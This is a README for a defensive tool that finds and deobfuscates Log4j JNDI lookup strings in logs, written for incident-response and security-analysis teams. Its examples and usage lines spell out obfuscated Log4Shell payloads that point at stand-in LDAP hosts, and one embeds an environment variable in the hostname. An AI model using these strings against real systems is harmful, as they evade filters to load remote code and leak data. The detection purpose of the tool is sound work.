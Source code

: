 # jndi_deobfuscate.py
## Purpose
This tool processes text logs to look for Java Naming and Directory Interface (JNDI) lookup strings, and outputs deobfuscated strings when it finds them. Deobfuscated strings can be used by other tools (not included), in order to retrieve malicious payloads from an attacker. JNDI lookup strings came into spotlight during a recent series of Common Vulnerabilities and Exposures (CVEs) around a popular Java logging library, Apache Log4j. 

## Who is this for
Information Security folks, particularly people who work in incident response, red teams, blue teams, malware analysis, threat intelligence, digital forensics, reverse engineering, or other security analyst/security engineering roles.

Relevant Team Keywords: CERT, CSIRT, DFIR, SOC, RE, TI


## Why is this necessary
Generally speaking, attackers attempt to exploit recent CVEs by sending data that includes a maliciously crafted string ('attack string'), to a target system. The basic attack string is a fairly predictable format, such as `${jndi:schema://hostname:port/path}`. To avoid detection, attackers will use other JNDI Java lookup features, so that their attack strings are hidden: The previous attack string, `${jndi:schema://hostname:port/path}`, can also be rendered as `${${lower:jndi}:schema://hostname:port/path}`, in addition to a nearly unlimited number of combinations of other language features.

## Examples of processed data: 
### Example 1: Obscured Schema (lower/upper)
- Input: `${${lower:${lower:jndi}}:ld${lower:ap}://192.0.2.1}`
- Output: `${jndi:ldap//192.0.2.1}`

### Example 2: System Variables Inserted
- Input: `${$jndi://${env:hostname}.example.com/maliciouspayload}` 
- Output: `${jndi://ENV_VAR_HOSTNAME.example.com/maliciouspayload}`

### Example 3: Obscured Schema (Unresolved Variables) 
- Input: `${jn${env:ENV_NAME:-d}i${env:ENV_NAME:-:}${env:ENV_NAME:-l}d${env:ENV_NAME:-a}p${env:ENV_NAME:-:}//192.0.2.1}:8081/malware}`
- OUtput: `${jndi:ldap://192.0.2.1}:8081/malware}`

### Example 4: Parsing example 1, where attack string is contained in a webserver log
- Input: `192.0.2.1 - - [30/Feb/2022:13:37:10 +0000] "GET /?p=${${lower:${lower:jndi}}:ld${lower:ap}://192.0.2.1} HTTP/2.0" 200 5316 "https://example.com/?p=${${lower:${lower:jndi}}:ld${lower:ap}://192.0.2.1}" "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36" "2.75"`
- Output: `${jndi:ldap//192.0.2.1}`


## Installation:
`pip install jndi_deobfuscate`


## Usage:
### Process a text file for obfuscated JNDI strings:
`./jndi_deobfuscate.py -f FILENAME_HERE.txt`

### Process a single string:
`./jndi_deobfuscate.py -s '${${lower:${lower:jndi}}:ld${lower:ap}://1.2.3.4:1389/t}'`

### To view debug information, add the -v flag
`./jndi_deobfuscate.py -v -s '${${lower:${lower:jndi}}:ld${lower:ap}://1.2.3.4:1389/t}'`


## References:
- [Apache Blog entry, discussing recent CVEs](https://blogs.apache.org/foundation/entry/apache-log4j-cves)
- [Microsoft Security Blog, on detecting attacks](https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/)
- [Florian Roth GitHub Gist, on detecting attacks](https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b)
- [Apache Documentation on Lookup Strings](https://logging.apache.org/log4j/log4j-2.3/manual/lookups.html)


## Known Issues:
### Only processes the first JNDI string identified, per line. 
 - Input: `${jndi:ldap://example.com/1} some text ${jndi:ldap://example.com/2}`
 - Output: `${jndi:ldap://example.com/1}`

### Unit Tests Lacking
 - Need more real-world samples
 - Need more tests for each individual component of processing
 - Need to test for exhaustive recursion (current samples take ~1-3 rounds of processing. Would like items in the 20+ range, to ensure correctness.)
 - Regexs can be complex: Need unit tests on each regular expression.

### Code is slow
 - Optimization Possibilities:
     - skipping recursion where not necessary
     - more effective regexs, instead of adding code/loops to make up for loose regex matching (note: add test cases before tightening regexs)
     - more/better parallelization

### Code needs more error checking
 - Take into account defensive programming principles
 - Take into account adversary abuse
     - Can an attacker exhaust your resources, if they know you are running this?
     - Can an attacker block follow-on requests, when the attacker can tell that an obfuscated JNDI string has been processed by this script?

### Code needs better documentation
 - Better describe inputs/outputs of each method
 - Describe why/why not each code path is taken